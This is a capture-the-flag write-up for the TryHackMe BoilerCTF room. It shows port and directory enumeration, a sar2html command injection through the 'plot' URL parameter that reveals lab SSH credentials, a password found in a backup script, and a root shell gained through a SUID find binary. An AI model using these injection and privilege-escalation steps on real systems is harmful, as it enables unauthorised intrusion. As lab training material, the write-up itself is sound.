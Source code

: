 # 29 - BoilerCTF

Room Link --> [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap 10.10.62.87 -sV -Pn -n -p- -T5 -vv

PORT      STATE SERVICE          REASON
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
80/tcp    open  http             syn-ack ttl 63
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```
{% endcode %}

#### FTP enumeration

```
ftp 10.10.62.87
ftp> ls -al
229 Entering Extended Passive Mode (|||44125|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt

┌──(dking㉿dking)-[~/Downloads]
└─$ cat .info.txt           
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

#### Port 10000 (webmin)

Seems webmin is running on https --> [https://10.10.62.87:10000/](https://10.10.62.87:10000/)

Checking google and Webmin version 1.930 is not vulnerable, so we can't exploit that.

Enumerating with gobuster and discovered a CMS.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87 -w /usr/share/dirb/wordlists/common.txt -x txt,php,html,db,ini -t 500 2>/dev/null

# outputs.
/joomla               (Status: 301) [Size: 311] [--> http://10.10.62.87/joomla/]
/manual               (Status: 301) [Size: 311] [--> http://10.10.62.87/manual/]
/robots.txt           (Status: 200) [Size: 257]
```
{% endcode %}

Navigating to --> [http://10.10.62.87/joomla/](http://10.10.62.87/joomla/) and started looking around.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

More enumeration with gobuster.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87/joomla/ -w /usr/share/dirb/wordlists/common.txt -t 500 2>/dev/null

# outputs
/_test                
/~www                 
/_archive             
/bin                  
/build                
/cache                
/components           
/images               
/includes             
/index.php            
/installation         
/language             
/layouts              
/libraries            
/media                
/modules              
/plugins              
/templates            
/tests                
/tmp                  
/_database            
/_files               
/administrator
```
{% endcode %}

**http://10.10.140.202/joomla/\_test/**

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-MrxP7-ZrTNQ/YJwO4lHCbhI/AAAAAAAAv-w/r1vH82TtD4Idhc4F7JmOF1rEK0jnRV_9QCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Searching for exploit on the Web, there seemed to be a [**Remote Code Execution vulnerability**](https://www.exploit-db.com/exploits/47204) in the Sar2HTML.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-nTPVdm9XrU0/YJwPBwVm4aI/AAAAAAAAv-0/Gq3EaR5ULPEgwDlSyzljRs-3rKh7i6YZgCLcBGAsYHQ/s16000/9.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Reading the [exploit](https://www.exploit-db.com/exploits/47204), it seemed that the plot parameter is injectable and when the command is entered, the output of the command can be viewed in the Select Host Drop Down option.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-BvbO2WsVUes/YJwPGq_khzI/AAAAAAAAv-4/n5l9RyNXEQcOjPTtUmS5h6HuM6R34UbhwCLcBGAsYHQ/s16000/10.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

#### **Exploitation**

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's wordking, we can list al files. The file is "log.txt".

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> http://10.10.72.60/joomla/\_test/index.php?plot=;cat log.txt

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*QFXboajcwZk7Q-tM4kXksA.png" alt="" height="367" width="700"><figcaption></figcaption></figure>

And BOOM! We got the **SSH** username: **basterd** and password: **superduperp@\$$**

### Initial Access

Login to ssh with the credentials.

```
ssh basterd@10.10.62.87
```

And we got in.

The other user's password was stored in "backup.sh" file.

```
USER=stoner
#superduperp@$$no1knows
```

### Priv Esc to Stoner

```bash
su stoner # enter the password.

find / -user root -perm -4000 -exec ls -al {} \; 2>/dev/null

# and we saw the "/usr/bin/find" binary.
/usr/bin/find . -exec /bin/sh -p \; -quit

# and got root.
```

